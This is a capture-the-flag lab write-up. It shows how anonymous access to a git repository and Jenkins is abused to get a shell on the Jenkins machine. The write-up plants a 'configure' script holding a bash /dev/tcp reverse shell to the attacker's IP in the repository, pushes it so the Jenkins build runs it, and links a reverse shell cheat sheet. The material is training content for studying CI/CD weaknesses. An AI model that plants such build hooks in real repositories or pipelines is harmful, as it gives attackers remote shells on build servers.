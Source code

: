 # jenkins-leveraging-code-repo

#### Objective: Leverage the scenario to get a shell on the Jenkins machine and retrieve the flag!

----

#### Bug

- The administrator has allowed all users to fire build on a pre-defined job and view build logs without logging in. However, defining a new task or changing the build process is only allowed to logged-in users.

----

- [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

----

![](images/1.png)

![](images/2.png)

![](images/3.png)

![](images/4.png)

![](images/5.png)

![](images/6.png)

```sh
root@attackdefense:~/Desktop# git clone http://192.83.162.4/root/sample-web-server.git
Cloning into 'sample-web-server'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (6/6), 5.12 KiB | 2.56 MiB/s, done.
root@attackdefense:~/Desktop# 
```

```sh
root@attackdefense:~/Desktop# cd sample-web-server/
root@attackdefense:~/Desktop/sample-web-server# ls -l
total 28
-rw-r--r-- 1 root root   138 Jun 10 17:11 Makefile
-rw-r--r-- 1 root root  1049 Jun 10 17:11 README.md
-rw-r--r-- 1 root root    42 Jun 10 17:11 index.html
-rw-r--r-- 1 root root 13225 Jun 10 17:11 tiny.c
root@attackdefense:~/Desktop/sample-web-server# 
```

`configure`

```sh
#!/bin/bash

bash -i >& /dev/tcp/192.83.162.2/8080 0>&1
```

```sh
root@attackdefense:~/Desktop/sample-web-server# vim configure
root@attackdefense:~/Desktop/sample-web-server# chmod +x configure 
root@attackdefense:~/Desktop/sample-web-server# ls -l
total 32
-rw-r--r-- 1 root root   138 Jun 10 17:11 Makefile
-rw-r--r-- 1 root root  1049 Jun 10 17:11 README.md
-rwxr-xr-x 1 root root    56 Jun 10 17:14 configure
-rw-r--r-- 1 root root    42 Jun 10 17:11 index.html
-rw-r--r-- 1 root root 13225 Jun 10 17:11 tiny.c
root@attackdefense:~/Desktop/sample-web-server# 
```

```sh
root@attackdefense:~/Desktop/sample-web-server# git add .
root@attackdefense:~/Desktop/sample-web-server# git commit -m "updated shell"
[master 816da74] updated shell
 Committer: root <root@cb18f1d55887>
Your name and email address were configured automatically based
on your username and hostname. Please check that they are accurate.
You can suppress this message by setting them explicitly. Run the
following command and follow the instructions in your editor to edit
your configuration file:

    git config --global --edit

After doing this, you may fix the identity used for this commit with:

    git commit --amend --reset-author

 1 file changed, 3 insertions(+)
 create mode 100755 configure
root@attackdefense:~/Desktop/sample-web-server# git push
Username for 'http://192.83.162.4': root
Password for 'http://root@192.83.162.4': 
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 48 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 314 bytes | 314.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0)
To http://192.83.162.4/root/sample-web-server.git
   e5a5285..816da74  master -> master
root@attackdefense:~/Desktop/sample-web-server# 
```

![](images/7.png)

![](images/8.png)

![](images/9.png)

![](images/10.png)

![](images/11.png)

![](images/12.png)

![](images/13.png)

----

#### Lessons learnt

- Anonymous users having write access to the git repository and Jenkins UI can inturn lead to RCE.

----

EOF